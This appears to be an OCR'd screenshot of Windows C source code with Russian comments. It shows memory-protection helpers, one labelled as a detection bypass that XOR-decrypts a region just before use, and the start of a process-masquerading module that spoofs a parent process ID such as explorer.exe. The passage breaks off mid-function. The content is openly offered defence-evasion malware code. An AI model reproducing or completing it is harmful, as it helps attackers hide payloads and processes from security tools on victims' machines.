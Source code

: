 // 1. Защита с помощью VirtualProtect с изменяющейся страницей
BOOL ProtectMemoryRegion(PMEMORY_PROTECTION pProtection) {
    // Сохраняем оригинальную защиту
    if (!VirtualProtect(pProtection->MemoryRegion, pProtection->RegionSize, 
                        PAGE_NOACCESS, &pProtection->OriginalProtection)) {
        return FALSE;
    }
    
    // Устанавливаем защиту с помощью SetProcessMitigationPolicy
    PROCESS_MITIGATION_DYNAMIC_CODE_POLICY dcp = { 0 };
    dcp.ProhibitDynamicCode = 1;
    SetProcessMitigationPolicy(ProcessDynamicCodePolicy, &dcp, sizeof(dcp));
    
    return TRUE;
}

// 2. Обход детектирования через динамическое расшифрование перед использованием
BOOL AccessProtectedMemory(PMEMORY_PROTECTION pProtection, BOOL bDecrypt) {
    DWORD dwProtect = bDecrypt ? PAGE_READWRITE : PAGE_NOACCESS;
    
    if (!VirtualProtect(pProtection->MemoryRegion, pProtection->RegionSize, 
                         dwProtect, &pProtection->CurrentProtection)) {
        return FALSE;
    }
    
    if (bDecrypt) {
        // XOR дешифрование 
        BYTE* pData = (BYTE*)pProtection->MemoryRegion;
        for (SIZE_T i = 0; i < pProtection->RegionSize; i++) {
            pData[i] ^= pProtection->EncryptionKey[i % pProtection->KeySize];
        }
    }
    
    return TRUE;
}

3. ProcessMasquerading — Модуль маскировки процессов

// Техника маскировки процесса в памяти
BOOL MasqueradeProcess(LPCWSTR lpTargetProcess) {
    // 1. Техника PPID Spoofing
    STARTUPINFOEX si = { sizeof(STARTUPINFOEX) };
    PROCESS_INFORMATION pi;
    SIZE_T size = 0;
    
    // Находим целевой процесс для маскировки (например, explorer.exe)
    DWORD parentPID = GetParentProcessId(lpTargetProcess);
    
    // Инициализируем атрибуты для наследования PID
    InitializeProcThreadAttributeList(NULL, 1, 0, &size);
    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
        GetProcessHeap(), HEAP_ZERO_MEMORY, size);
    
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
    
    // Открываем родительский процесс
    HANDLE hParentProcess = OpenProcess(
        PROCESS_CREATE_PROCESS, FALSE, parentPID);
    